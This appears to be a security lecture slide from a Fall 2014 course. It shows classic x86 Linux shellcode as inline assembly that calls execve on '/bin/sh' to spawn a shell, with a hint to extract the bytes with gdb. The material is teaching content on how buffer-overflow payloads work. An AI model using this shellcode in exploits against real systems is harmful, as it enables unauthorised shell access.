

# In Assembly
void main() { __asm__(" jmp 0x2a # 3 bytes
                        popl %esi # 1 byte
                        movl %esi,0x8(%esi) # 3 bytes
                        movb $0x0,0x7(%esi) # 4 bytes
                        movl $0x0,0xc(%esi) # 7 bytes
                        movl $0xb,%eax # 5 bytes
                        movl %esi,%ebx # 2 bytes
                        leal 0x8(%esi),%ecx # 3 bytes
                        leal 0xc(%esi),%edx # 3 bytes
                        int $0x80 # 2 bytes
                        movl $0x1, %eax # 5 bytes
                        movl $0x0, %ebx # 5 bytes
                        int $0x80 # 2 bytes
                        call -0x2f # 5 bytes
                        .string \"/bin/sh\" # 8 bytes "); }

Get binary code using gdb!

Fall 2014
46